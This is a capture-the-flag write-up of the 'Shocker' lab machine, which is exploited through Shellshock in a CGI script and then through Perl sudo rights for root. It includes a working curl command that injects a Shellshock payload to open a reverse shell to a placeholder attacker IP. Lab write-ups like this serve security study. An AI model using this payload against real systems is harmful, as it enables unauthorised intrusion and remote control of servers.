

# Shocker

## Summary

**Vulnerability Exploited:** Shellshock (CVE-2014-6271)

**Vulnerability Explanation:** "GNU Bash through 4.3 processes trailing strings after function definitions in the values of environment variables, which allows remote attackers to execute arbitrary code via a crafted environment." (Via [NIST.](https://nvd.nist.gov/vuln/detail/CVE-2014-6271)) When a Linux Apache HTTP server has "cgi_mod" enabled, attackers can send such crafted environments through headers in GET requests to CGI scripts.

**Privilege Escalation Vulnerability****:** Perl NOPASSWD sudo execution

## Penetration

We begin with an nmap port scan.

The web server looks like our best bet.

Gobuster finds very little on the server except /cgi-bins/.

At this point, considering the name of the machine, we can be relatively confident that we need to exploit the infamous Shellshock bash vulnerability to get our initial foothold. To do this, we need to find a script in /cgi-bin/ to make a request to. Unfortunately, /cgi-bins/ is not listable, nikto and nmap "http-shellshock.nse" can't find a vulnerable script, and standard seclists for enumerating GGIs don't appear to find anything. However, we can find /cgi-bin/user.sh by using gobuser to search for common script file extensions.

Now we can test for the shellshock vulnerability.

Excellent! We can get a shell using the command **curl -H "User-Agent: () { :;}; echo;/bin/bash -i \>& /dev/tcp/\<attacker ip\>/443 0\>&1" 10.10.10.56/cgi-bin/user.sh**

We have gotten a shell as the user Shelly. We can check what commands Shelly can run with high privileges using "sudo -l". We find that Shelly can sudo perl without a password. Since perl can run system commands, this is sufficient for a root shell.

